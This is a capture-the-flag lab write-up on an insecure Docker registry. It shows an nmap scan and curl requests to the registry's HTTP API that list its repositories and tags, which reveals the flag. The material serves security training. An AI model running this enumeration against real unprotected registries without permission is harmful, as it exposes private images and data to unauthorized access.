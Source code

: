 #### 1. Insecure Docker Registry I

----

- An unprotected private Docker registry is on the same network as your Kali machine. There are some docker images present in the registry, the flag is hidden in the name of one of the images.
- Objective: Interact with the private Docker registry using curl and retrieve the flag! No docker clients are provided and this exercise needs to be solved using first principles.

---

```sh
root@attackdefense:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2388: eth0@if2389: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:0a:01:01:05 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.1.5/24 brd 10.1.1.255 scope global eth0
       valid_lft forever preferred_lft forever
2391: eth1@if2392: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:c0:b7:1f:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.183.31.2/24 brd 192.183.31.255 scope global eth1
       valid_lft forever preferred_lft forever
root@attackdefense:~#
```

```sh
root@attackdefense:~# nmap -sV -sC 192.183.31.3
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-24 05:29 UTC
Nmap scan report for 93wqxlqfbb8t6fyeecz1mcp6j.temp-network_a-183-31 (192.183.31.3)
Host is up (0.000013s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
5000/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
MAC Address: 02:42:C0:B7:1F:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.81 seconds
root@attackdefense:~#
```

```sh
root@attackdefense:~# curl http://192.183.31.3:5000
```

```sh
root@attackdefense:~# curl http://192.183.31.3:5000/v2/_catalog
{"repositories":["alpine","flag","ubuntu"]}
root@attackdefense:~#
```

```sh
root@attackdefense:~# curl http://192.183.31.3:5000/v2/alpine/tags/list
{"name":"alpine","tags":["latest"]}
root@attackdefense:~#
```

```sh
root@attackdefense:~# curl http://192.183.31.3:5000/v2/flag/tags/list
{"name":"flag","tags":["b2929842a9ab2a4506cbfd1a69cb6785"]}
root@attackdefense:~#
```

```sh
root@attackdefense:~# curl http://192.183.31.3:5000/v2/ubuntu/tags/list
{"name":"ubuntu","tags":["14.04","18.04","12.04","16.04"]}
root@attackdefense:~#
```

----

###### Reference

- [Docker Registry HTTP API V2](https://docs.docker.com/registry/spec/api/)

----

EOF